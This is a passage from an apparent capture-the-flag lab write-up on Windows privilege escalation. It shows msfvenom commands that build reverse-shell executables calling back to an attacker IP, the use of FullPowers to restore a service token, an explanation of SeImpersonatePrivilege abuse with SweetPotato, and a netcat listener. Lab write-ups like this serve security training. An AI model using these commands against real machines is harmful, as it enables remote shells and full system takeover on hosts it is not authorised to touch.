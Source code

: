 Let's first create a MSFVENOM payload for another reverse shell, as we'll need a new session as the restored `LOCAL SERVICE` account. I've been trying to practice exploiting machines without the use of C2's, so we'll just use regular netcat reverse shells for this.

```
└─$ msfvenom -p windows/x64/shell_reverse_tcp -ax64 -f exe LHOST=10.8.0.173 LPORT=9002 > daz.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

We'll then transfer that to a directory on the remote filesystem using CURL onto your preferred directory (I made a directory within `C:\temp`).

We'll then also CURL our compiled `FullPowers.exe` binary onto the host. This should leave us with the below two files.

```
PS C:\temp> ls

Directory: C:\temp

Mode                 LastWriteTime         Length Name                   
----                 -------------         ------ ----
-a----          8/7/2024   9:11 PM           7168 daz.exe
-a----          8/7/2024   9:12 PM          36864 FullPowers.exe
```

We can then execute `FullPowers` and generate a new session as `LOCAL SERVICE` with our privileges restored with the below command.

```
PS C:\temp> .\FullPowers.exe -c 'C:\temp\daz.exe'
```

![](/images/vulnlab/media-vl/g.png)

As you can see from the above, we now have `SeImpersonatePrivilege` and can exploit the SYSTEM auth coercion. I've explained this in a few other writeups, however I'll give the rundown just for any new readers.

Service accounts, by default, will have he `SeImpersonatePrivilege` token along with  `SeAssignPrimaryTokenPrivilege`. Having `SeImpersonatePrivilege` essentially allows our service account to impersonate a user or specified user to perform actions on behalf of that user. Exploiting this is relatively simple, as we can impersonate SYSTEM and authenticate to an evil named pipe that we create. We can direct this named pipe to a binary to execute, which will run in the context of SYSTEM.

We can use the Potato family of exploits to perform this evil named pipe and auth coercion exploit. Generally if AV is enabled we'd have to use a specific Potato exploit, however that does not seem to be the case here. I'll use [SweetPotato](https://github.com/CCob/SweetPotato) for our case here.

We'll generate another MSFVENOM reverse shell on port 9003 and start up a netcat listener beforehand.

```
└─$ msfvenom -p windows/x64/shell_reverse_tcp -ax64 -f exe LHOST=10.8.0.173 LPORT=9003 > daz2.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes

└─$ rlwrap nc -lvnp 9003
listening on [any] 9003 ...
```
